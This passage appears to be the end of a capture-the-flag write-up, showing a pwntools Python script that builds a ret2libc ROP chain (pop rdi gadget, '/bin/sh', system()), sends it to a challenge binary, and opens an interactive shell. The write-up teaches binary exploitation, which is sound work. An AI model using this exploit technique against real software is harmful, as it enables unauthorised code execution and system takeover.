 ```python
    exploit += p64(libc.address + POP_RDI_RET)             # Gadget: pop rdi; ret;
    exploit += p64(next(libc.search(b"/bin/sh")))          # Pass /bin/sh.
    exploit += p64(libc.symbols["system"])                 # Call system().

    # Send the exploit.
    log.info("Delivering exploit.")
    p.recvuntil("safely?")
    p.sendline(exploit)

    # Interact with the shell.
    log.info("Spawning shell.")
    p.recvuntil("luck!")
    p.interactive()

if __name__ == "__main__":
    main()
```

Launch the exploit and sure enough, we have a shell:

![](/uploads/2021-07-18/img04.png)

It's a textbook ret2libc attack.
